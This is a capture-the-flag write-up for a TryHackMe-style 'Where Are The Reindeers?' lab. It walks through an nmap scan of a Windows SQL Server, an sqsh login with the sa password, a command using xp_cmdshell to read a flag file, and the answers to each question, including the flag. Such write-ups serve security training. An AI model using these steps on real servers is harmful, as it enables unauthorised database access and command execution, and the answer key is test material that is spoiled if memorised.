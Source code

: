 ```yaml
---
title: Where Are The Reindeers? (Day 11)
sidebar_position: 12
---
```

## Topic: Networking

First thing is to nmap scan the machine
command:`nmap -sC -sV -Pn -v MACHINE_IP`
result:
```bash
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2b:c5:31:04:b7:92:68:57:ac:3b:92:18:42:7b:c9:01 (RSA)
|   256 6c:ad:62:67:ad:1b:24:5d:d5:75:e1:07:1a:9a:69:29 (ECDSA)
|_  256 19:2f:29:26:a3:fb:37:21:4a:7b:7a:7b:de:e0:4f:12 (ED25519)
135/tcp  open  msrpc         Microsoft Windows RPC
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-12-22T16:30:41
| Not valid after:  2051-12-22T16:30:41
| MD5:   58f5 bc01 cfd2 2e24 576c 0fe5 1987 0eed
|_SHA-1: 58b5 ef00 fab6 5275 564f c174 bd58 fde4 0124 bce5
| ms-sql-ntlm-info: 
|   Target_Name: AOC2021-MSSQL
|   NetBIOS_Domain_Name: AOC2021-MSSQL
|   NetBIOS_Computer_Name: AOC2021-MSSQL
|   DNS_Domain_Name: AOC2021-MSSQL
|   DNS_Computer_Name: AOC2021-MSSQL
|_  Product_Version: 10.0.17763
|_ssl-date: 2021-12-22T16:32:56+00:00; -2h59m29s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: AOC2021-MSSQL
|   NetBIOS_Domain_Name: AOC2021-MSSQL
|   NetBIOS_Computer_Name: AOC2021-MSSQL
|   DNS_Domain_Name: AOC2021-MSSQL
|   DNS_Computer_Name: AOC2021-MSSQL
|   Product_Version: 10.0.17763
|_  System_Time: 2021-12-22T16:32:46+00:00
| ssl-cert: Subject: commonName=AOC2021-MSSQL
| Issuer: commonName=AOC2021-MSSQL
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-10-31T21:09:16
| Not valid after:  2022-05-02T21:09:16
| MD5:   750c 652b aad2 aeef d689 7293 a5c8 8222
|_SHA-1: 535f 47f3 c28d ae82 62fb a9ff 7436 ee6a 39c0 3296
|_ssl-date: 2021-12-22T16:32:57+00:00; -2h59m29s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| ms-sql-info: 
|   10.10.222.95:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_clock-skew: mean: -2h59m29s, deviation: 0s, median: -2h59m29s
```
Command to get final flag: `xp_cmdshell 'type C:\users\grinch\documents\flag.txt';`  
### Questions:
1. There is an open port related to MS SQL Server accessible over the network. What is the port number?  
answer: `1433` (see scan above)  
2. Let’s try to run, `sqsh -S 10.10.222.95 -U sa -P t7uLKzddQzVjVFJp` If the connection is successful, you will get a prompt. What is the prompt that you have received?  
answer: `1>`
3. We can see four columns in the table displayed above: id, first (name), last (name), and nickname. What is the first name of the reindeer of id 9?  
answer: `rudolph`  
4. Check the table `schedule`. What is the destination of the trip scheduled on December 7?  
answer: `Prague  
5. Check the table `presents`. What is the quantity available for the present “Power Bank”?  
answer: `25`  
6. There is a flag hidden in the `grinch` user's home directory. What are its contents?  
answer: `THM{YjtKeUy2qT3v5dDH}`  